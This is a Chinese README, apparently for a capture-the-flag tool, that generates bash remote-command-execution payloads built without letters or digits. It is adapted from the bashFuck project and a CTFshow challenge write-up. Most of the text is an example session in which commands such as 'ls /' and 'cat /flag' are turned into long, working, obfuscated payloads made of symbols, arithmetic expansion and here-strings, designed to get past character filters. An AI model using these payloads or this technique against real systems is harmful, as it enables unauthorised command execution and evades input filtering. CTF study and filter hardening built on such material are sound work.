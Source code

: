 ## bash环境下的无字母数字rce payload构建脚本
### 0x01 说明

部分代码参考了@ProbiusOfficial的[bashFuck](https://github.com/ProbiusOfficial/bashFuck)脚本，例如info部分  
其余代码整合了[CTFshow-周末大挑战官方wp](https://ctf-show.feishu.cn/docx/EH72dMi3hoBtLJxDydjcIVcQnSc)中的脚本  
除此之外还添加了两种payload

### 0x02 使用

传入一个可用字符串的列表后输入想执行的命令即可

```bash
请输入列表格式的可用字符，回车默认全部: ['!', '_', '+', '$', '{', '}', '=', '#', '&', '(', ')', '<', '\'', '\\']
输入想执行的命令: ls /
---------------------------
Charset : ! # $ & ' ( ) + < = \ _ { }
Total Used: 14
Total length = 330
Payload = __=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}${__}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\'
---------------------------
输入想执行的命令: cat /flag
---------------------------
Charset : ! # $ & ' ( ) + < = \ _ { }
Total Used: 14
Total length = 668
Payload = __=$(())&&___=$((++__))&&____=$((++___))&&_____=$(())&&${!_____}<<<${!_____}\<\<\<\$\'\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${__}${__}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${__}${_____}${_____}${__}${_____}${_____}))\\$((${____}#${__}${_____}${__}${_____}${_____}${_____}))\\$((${____}#${__}${__}${__}${_____}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${__}${__}${_____}${__}${_____}))\\$((${____}#${__}${_____}${_____}${_____}${__}${__}${_____}${__}))\\$((${____}#${__}${_____}${_____}${__}${_____}${_____}${__}${__}))\'
---------------------------
输入想执行的命令: 
```